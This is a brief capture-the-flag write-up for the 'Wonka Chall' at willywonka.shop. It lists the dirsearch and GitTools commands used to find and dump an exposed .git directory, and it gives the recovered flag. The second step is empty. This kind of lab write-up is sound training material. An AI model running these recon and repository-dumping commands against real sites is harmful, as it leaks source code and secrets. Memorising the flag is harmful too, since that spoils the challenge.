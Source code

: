 # Wonka Chall

> Akerva

> https://willywonka.shop

## Step 1

1. dirsearch -> .git
2. GitTools -> dumper -> extractor
3. Flag 1 dans .git/COMMIT_EDITMSG

> 16ECD0DF90036C3CA8D6E988BB1737DC332CD72A8F4E62C32E0F825EDD155009

More detail: ['Step1'](./step1.md)

## Step 2



## Resources

1. GitTools : https://github.com/internetwache/GitTools.git

---

## Useful command used

* dirsearch

```bash
python3 /opt/t/pentest/recona/dirsearch/dirsearch.py -u https://willywonka.shop/ -e do,java,action,db,sql,~,xml,pdf,jsp,php,old,bak,zip,tar,asp,aspx,txt,html,xsl,xslx -t 25
```

* gittools

```bash
/opt/t/pentest/exploit/GitTools/Dumper/gitdumper.sh https://willywonka.shop/.git/ git_out
/opt/t/pentest/exploit/GitTools/Extractor/extractor.sh git_out git_extract
```